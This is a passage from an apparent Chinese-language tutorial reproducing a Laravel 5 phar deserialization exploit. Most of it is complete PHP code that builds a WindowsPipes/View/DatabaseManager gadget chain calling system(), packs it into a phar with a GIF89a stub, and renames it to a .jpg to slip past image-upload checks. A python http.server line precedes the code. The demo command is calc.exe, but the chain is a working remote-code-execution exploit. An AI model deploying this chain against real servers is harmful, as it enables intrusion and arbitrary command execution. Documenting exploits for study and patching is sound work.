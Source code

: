 在文件目录下使用`python -m http.server 19980`

3.  **生成EXP phar文件**

在Public文件夹下新建命名为exp.php文件，内容如下

```php
<?php
namespace Illuminate\Database;
class DatabaseManager{
    protected $extensions = array();
    protected $app=array();
    public function __construct(){
        $this->extensions['calc.exe']='call_user_func';
        $this->app['config']['database.connections']=['calc.exe'=>'system'];
        $this->app['config']['database.default'] = 'calc.exe';
    }
}

namespace Illuminate\View;
use Illuminate\Database\DatabaseManager;
class View{
    protected $factory;
    public function __construct(){
        $this->factory=new DatabaseManager;
    }
}

namespace Symfony\Component\Process\Pipes;
use Illuminate\View\View;
use Phar;

class WindowsPipes{
    private $files = array();
    public function __construct(){
        $this->files = array(new View());
    }
}
//echo urlencode(serialize(new WindowsPipes()));
$exp=new WindowsPipes();
//echo base64_encode(serialize($exp));
@unlink("laravel5_exp.phar");
$phar = new Phar("laravel5_exp.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($exp); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

运行后得到`laravel5_exp.phar`文件，重命名为`laravel5_exp.jpg`。
